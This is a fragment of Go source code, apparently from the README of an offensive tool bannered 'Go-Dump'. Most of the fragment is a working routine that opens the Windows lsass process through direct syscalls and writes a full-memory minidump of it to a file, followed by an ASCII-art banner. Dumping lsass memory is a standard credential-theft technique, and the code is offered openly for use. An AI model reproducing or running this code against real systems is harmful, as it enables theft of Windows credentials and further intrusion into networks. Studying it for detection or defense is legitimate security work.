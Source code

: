 ```go
  // Variable to store process pointer
  var procHandle uintptr
  // Open lsass process
  _, err = hooka.Syscall(
    NtOpenProcess, // syscall
    uintptr(unsafe.Pointer(&procHandle)), // process handle
    uintptr(0xFFFF),
    uintptr(unsafe.Pointer(&ObjectAttrs{0, 0, 0, 0, 0, 0})), // attributes
    uintptr(unsafe.Pointer(&ClientID{uintptr(pid), 0})),
    0,
  )

  if err != nil { // Handle error
    return err
  } else if procHandle == 0 {
    return err
  }

  // Create file on path
  os.Create(output)
  // Get API call
  CreateFile := windows.NewLazyDLL("kernel32").NewProc("CreateFileW")
  // Convert string to uintptr
  path, _ := syscall.UTF16PtrFromString(output)

  // Call CreateFileW to write memory bytes
  fHandle, _, _ := CreateFile.Call(
    uintptr(unsafe.Pointer(path)), // file path
    syscall.GENERIC_WRITE, // access
    syscall.FILE_SHARE_READ | syscall.FILE_SHARE_WRITE,
    0,
    syscall.OPEN_EXISTING,
    syscall.FILE_ATTRIBUTE_NORMAL,
    0,
  )

  MiniDumpWriteDump := windows.NewLazyDLL("Dbghelp.dll").NewProc("MiniDumpWriteDump")
  // Dump memory
  ret, _, err := MiniDumpWriteDump.Call(
    uintptr(procHandle), // process handle
    uintptr(pid), // process id
    uintptr(fHandle), // file handle
    0x00061907, // MiniDumpWithFullMemory
    0,
    0,
    0,
  )

  if (ret == 0) { // Handle error
    os.Remove(output)
    return err
  }

  return nil
}

func Banner(){
  fmt.Println(`   ___         ___
  / __|___ ___|   \ _  _ _ __  _ __
 | (_ / _ \___| |) | || | '  \| '_ \
  \___\___/   |___/ \_,_|_|_|_| .__/
                              |_|
  `)
```